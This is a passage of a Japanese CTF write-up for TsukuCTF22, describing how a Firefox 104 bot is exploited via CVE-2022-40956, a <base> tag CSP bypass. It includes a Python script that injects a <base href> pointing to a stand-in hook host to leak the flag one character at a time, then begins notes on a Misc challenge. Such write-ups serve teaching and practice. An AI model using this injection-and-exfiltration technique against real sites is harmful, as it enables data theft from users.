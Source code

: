 ここで、冷静に配布ファイルを読むと、botはchromeではなくfirefoxであることがわかり、firefox特有の問題だと察する。User-Agentからfirefoxのバージョンは104。

そういえば作問陣のSatokiさんがfirefoxのCVEを取得していたことを思い出し確認しに行く:

- https://www.mozilla.org/en-US/security/advisories/mfsa2022-40/#CVE-2022-40956

105で修正されているので使えそう。`<base>`タグのバグでCSP bypassできる。

```python
import httpx
import string
import time
import urllib.parse

BASE_URL = "http://133.130.96.134:31416"
HOOK_URL = "https://hook.example.com"

CHARS = string.ascii_lowercase

prefix = ".suku...22.cakeum"
# TsukuCTF22{cakeuma}

def f(prefix: str, c: str):
    print(prefix + c)

    cake = f"{prefix}{c}|<base href={HOOK_URL[6:]}/>"
    if len(cake) > 100:
        print(f"too long: {cake}")
        exit(1)

    url = f"{BASE_URL}?cake={urllib.parse.quote(cake)}"

    httpx.get(f"{HOOK_URL}/{prefix + c}")
    res = httpx.post(
        f"{BASE_URL}/order",
        data={
            "url": url,
        },
    )

for c in CHARS:
    f(prefix, c)
    time.sleep(3)
```

こんな感じのスクリプトを実行すると、アクセスした画像のパスのリクエストが`HOOK_URL`に飛んでしまうので`/static/img/flag0.jpg`にアクセスするかどうかで1文字ずつ確定する。

`TsukuCTF22{cakeuma}`

## [Misc] Lucky Number 777
初手の方針として、 `"flag>='GUESSED_FLAG'"` という文字列を送信し、フラグの先頭から1文字ずつ特定するのを試したが、 `TsukuCTF22{wh4ts_` というところまで求まったところで `_` が送信できなくなり、この方針は詰んでしまった。

